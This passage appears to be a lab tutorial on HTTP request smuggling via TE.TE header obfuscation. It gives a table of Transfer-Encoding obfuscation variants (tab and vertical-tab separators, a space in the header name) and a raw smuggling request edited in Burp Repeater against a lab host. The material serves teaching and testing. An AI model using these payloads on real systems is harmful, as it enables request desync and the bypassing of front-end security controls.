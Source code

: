 | Description             | Header                             |
|--------------------------|------------------------------------|
| Substring match          | `Transfer-Encoding: testchunked`     |
| Space in Header name     | `Transfer-Encoding : chunked`        |
| Horizontal Tab Separator | `Transfer-Encoding:[\x09]chunked`    |
| Vertical Tab Separator   | `Transfer-Encoding:[\x0b]chunked`    |
| Leading space            |  `Transfer-Encoding: chunked`        |

> [!NOTE]
> The sequences [\x09] and [\x0b] are not the literal character sequences used in the obfuscation. Rather they denote the horizontal tab character (ASCII 0x09) and vertical tab character (ASCII 0x0b).

- As an example, let's assume a scenario where we can trick the reverse proxy into ignoring the TE header with the Horizontal Tab method, while the web server parses it despite the tab.
- Since the reverse proxy falls back to the CL header, the identification and exploitation would then be the same as in a CL.TE scenario.

- Let's copy the following request to a Burp Repeater tab:
```http
POST / HTTP/1.1
Host: tete.htb
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```
- Now let's replace the space that separates the TE header from the chunked value with a horizontal tab. We can do so by switching to the Hex view in the Repeater Tab and directly editing the space (0x20) to a horizontal tab (0x09):
![tete](/images/tete_1.jpg)

- When we now send the following request twice in quick succession, the second response should result in an HTTP 405 status code. We explored the reason for that in the previous section:
![tete2](/images/tete_2.jpg)
